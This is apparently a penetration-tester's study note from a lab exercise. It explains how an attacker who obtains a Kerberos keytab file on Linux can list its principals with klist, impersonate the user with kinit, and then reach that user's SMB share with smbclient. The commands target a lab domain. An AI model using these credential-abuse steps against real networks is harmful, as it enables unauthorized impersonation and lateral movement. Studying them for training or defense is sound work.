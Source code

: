 As attackers, we may have several uses for a keytab file. The first thing we can do is impersonate a user using `kinit`. To use a keytab file, we need to know which user it was created for. `klist` is another application used to interact with Kerberos on Linux. 
#### Listing keytab File Information

This application reads information from a `keytab` file. Let's see that with the following command:

```shell-session
klist -k -t 
```

> [!NOTE]
> **kinit** is case-sensitive, so be sure to use the name of the principal as shown in klist. In this case, the username is lowercase, and the domain name is uppercase.

```shell-session
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB]]

```shell-session
 smbclient //dc01/carlos -k -c ls
```

> [!NOTE]
> To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable `KRB5CCNAME`.






















































